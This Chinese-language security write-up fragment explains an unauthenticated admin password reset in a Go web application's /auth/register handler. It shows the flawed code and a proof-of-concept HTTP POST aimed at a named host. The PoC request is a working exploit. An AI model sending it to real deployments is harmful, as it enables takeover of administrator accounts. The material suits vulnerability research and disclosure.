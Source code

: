 ```go
Accept-Language: zh-CN,zh;q=0.9
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NjQxNzkzNDcsImlkIjoiYWRtaW4iLCJvcmlnX2lhdCI6MTY2NDE3MjE0N30.iuFiunMc5kx8q4_2CZzAnGQPLjpSK0BW_1X6_bRdP04
Sec-WebSocket-Key: NUAPtgysa4gd5VMU6znU1g==
```

![](../../img/trojan-case/Untitled%204.png)

---

## 前台管理员密码重置

在 web/auth.go `Auth` 方法

```go
func updateUser(c *gin.Context) {
	responseBody := controller.ResponseBody{Msg: "success"}
	defer controller.TimeCost(time.Now(), &responseBody)
	username := c.DefaultPostForm("username", "admin")
	pass := c.PostForm("password")
	err := core.SetValue(fmt.Sprintf("%s_pass", username), pass)
	if err != nil {
		responseBody.Msg = err.Error()
	}
	c.JSON(200, responseBody)
}

// Auth 权限router
func Auth(r *gin.Engine, timeout int) *jwt.GinJWTMiddleware {
	......	
	r.POST("/auth/register", updateUser)
	......
}
```

没有对注册方法做验证，这个是用于第一次打开应用时修改admin密码的，现在重复调用改接口可直接修改admin密码

poc

```go
POST http://123.centos-stream.org/auth/register HTTP/1.1
Host: 123.centos-stream.org
Content-Length: 195
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymc8kPkyHhSLWSsTf
Connection: close

------WebKitFormBoundarymc8kPkyHhSLWSsTf
Content-Disposition: form-data; name="password"

f8cdb04495ded47615258f9dc6a3f4707fd2405434fefc3cbf4ef4e6
------WebKitFormBoundarymc8kPkyHhSLWSsTf--
```
